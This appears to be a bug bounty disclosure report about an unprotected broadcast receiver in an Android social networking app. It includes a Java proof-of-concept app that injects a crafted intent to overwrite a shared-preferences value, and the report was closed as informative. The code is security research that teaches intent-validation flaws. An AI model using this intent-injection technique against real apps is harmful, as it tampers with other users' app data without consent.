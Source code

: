 ## Android  Security Report
- Date: 27th November 2021
- Target: Micro blogging and Social Networking Android App on Play Store
- Reporting platgorm: Hackerone
### Summary
In the target app, the developer dynamically registered a broadcast receiver and implemented unregistering the  broadcast receiver while the app is not in the foreground, which could be considered good practice. However, on the Android system, any app can send intents while another (target) app is running in the foreground. Additionally, using a reverse APK tool, intent filters declared in the app's code can be disclosed.

Through static analysis, it was discovered that the target app did not set the appropriate permissions for the dynamically registered broadcast receiver nor apply strict intent validation for the received intent. This oversight allowed me to build a malicious app capable of writing a value to the target app's shared preferences file.
### Impact
A malicious app can write arbitrary values for key `user_name` to the target apps's shared preferences file.
### POC
- Steps to reproduce
    1. Launch POC app.
    2. Wait 5 seconds.
    3. check the target app's shard preferences file.
        - file path: /data/data/com.xxxxxx/shared_pref/xxxxxx.xml
- Key features of POC app
```java
// MainActivity.java
@Override
protected void onCreate(Bundle savedInstanceState {
	super.onCreate(savedInstanceState);

	// Launch the target app.
	Intent i = getPackageManager().getLaunchIntentForPackage("com.xxxxxx");

	if (i != null) { 
		startActivity(i)
	}
}

@Override

protected void onPause() {
	super.onPause();
	
	Intent i = new Intent(this, EvilService.class);
	
	startService(i);
}


// EvilService.java
@Override
protected void onHandleIntent(@Nullable Intent intent) {

	// This value does not have to be in email format and can be of any length.
	String attack_email = "arbiturary@ema.il";

	try {
		// Wait 5 seconds for the target app to launch and register the receiver.
		Thread.sleep((long) 5000.0);
	} catch (InterruptedException e) {
		e.printStackTrace();
	}

	Bundle bundle_1 = new Bundle();
	bundle_1.putString("email", attack_email);

	Bundle bundle_2 = new Bundle();
	bundle_2.putBundle("********_request_params", bundle_1);

	Intent i = new Intent("com.xxxxxx.intent.action.NEW_NOTIFICATIONS");
	i.putExtra("api", "settings");
	i.putExtra("********", bundle_2);

	sendBroadcast(i);
}
```
### Conclusion
“ Thanks for your report. Looking at the decompiled code of the application, I was indeed
able to locate the BroadcastReceiver and its handler, although, writing the user_name field
in the XML file poses no security concerns.”

As a result, we're closing this submission as ***Informative***.
### Used Tools and Techniques
- ADB
- Frida
- Objection
- Dex2jar
- Jadx
- Python
- Reverse engineering
- Dynamic/Static analysis
- Android app development
### My thought
I was so thrilled and happy that it worked and closed it as informative🔓 Indeed, the value of 'user_name' in shared preferences is not used in any critical logic. The only concern is that it could make users see a weird name in the app like 'Hi, 😈_app_sets_your_name'. Still, it could potentially be dangerous in the future, so it is better to implement proper validation logic on the intent filter.
